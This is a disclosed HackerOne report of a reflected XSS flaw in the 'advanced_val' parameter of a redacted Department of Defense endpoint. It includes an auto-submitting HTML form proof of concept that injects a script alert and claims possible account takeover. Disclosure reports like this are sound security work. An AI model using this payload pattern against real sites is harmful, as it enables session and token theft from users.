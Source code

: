 # [████████] — XSS on `/███████_flight/images` via `advanced_val` parameter

## Report Details
- **Report ID**: 689257
- **URL**: https://hackerone.com/reports/689257
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2019-09-06T01:06:48.517Z
- **Disclosed**: 2020-05-14T18:01:54.746Z

## Reporter
- **Username**: usamasood
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
## Description

POST parameter `advanced_val` is vulnerable to reflected XSS on endpoint `https://███/██████████_flight/images`. XSS affects all users and no authentication or login is required.

## Proof of Concept

Either visit the following URL for PoC:

https://██████████/poc/

Or, create your own PoC file:

```html
<html>
<head>
    <title>XSS POC</title>
</head>
<body onload=document.getElementById("xss").submit()>
<form id='xss' method="post" enctype="application/x-www-form-urlencoded" action="https://█████/█████████_flight/images">
    <input type='hidden' name='advanced_val' value='xss"><script>alert(document.domain)</script>'>
</form>
</body>
</html>
```
██████████

## Impact

An attacker can take over an account of an authenticated user by stealing any anti-CSRF tokens and using that token to takeover an account.

## Attachments
No attachments
